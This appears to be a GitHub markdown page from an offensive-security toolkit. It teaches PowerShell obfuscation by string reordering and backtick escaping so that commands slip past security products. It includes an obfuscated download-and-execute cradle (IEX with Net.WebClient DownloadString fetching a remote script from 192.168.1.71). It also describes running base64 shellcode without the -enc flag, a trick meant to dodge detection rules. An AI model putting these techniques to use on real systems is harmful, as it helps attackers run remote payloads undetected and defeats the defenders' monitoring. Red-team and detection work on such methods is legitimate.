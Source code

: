 <br />

- String command to obfuscate<br />
`Get-Service` And `TeamViewer`

- String obfuscated<br />
`("{0}{2}{1}{3}" -f'vice','Ser','G','et-')` And `$first='Te'+'amV'+'iewer'`

![powershell obfuscation](http://i66.tinypic.com/21eublh.jpg)

      Stacking 're-order' commands together with the ; operator. Remmenber that we can also
     store the re-order method inside an local variable to be called at run-time.
      Example: $syscall = ("{3}{0}{2}{4}" -f'voke','es','-Expr','In','sion')

- String command to obfuscate<br />
`Invoke-Expression (New-Object)`

- String obfuscated<br />
`$a=("{3}{0}{2}{1}{4}" -f'voke','es','-Expr','In','sion') ; $r=("{0}{2}{1}" -f'(New','ject)','-Ob')`

![powershell obfuscation](http://i67.tinypic.com/1znx11e.jpg)
`HINT: we can also scramble the location of the vars ($a | $r) inside the sourcecode (order)`<br />
`to obfuscate it further, and then call them in the correct order executing the powershell command.`

---

      Another way to use 'splatting + reorder' technic to remote download/execute agent

- String command to obfuscate<br />
`IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.71/Hello.ps1")`

- String obfuscated<br />

      I`E`X ('({0}w-Object {0}t.WebClient).{1}String("{2}19`2.16`8.1`.71/He`ll`o.ps`1")' -f'Ne','Download','http://')

![powershell obfuscation](http://i65.tinypic.com/2h55mb4.jpg)

---

      [ Additional Methods for exec base64 shellcode ]
      Since the powershell -enc method started to be used to execute base64 shellcode strings that it became
      very targeted by security suites to flag alerts, In order to circumvent -enc parameter we decided to
      use powershell commands and leverage set-variables with .value.toString() in order to piece together
      our -enc command into the command line. This allows us to specify -enc without ever calling -enc which
      would be hit by detection rules. [ ReL1k ]


<br />

- File **Unicorn.ps1** (base64 shellcode execution)
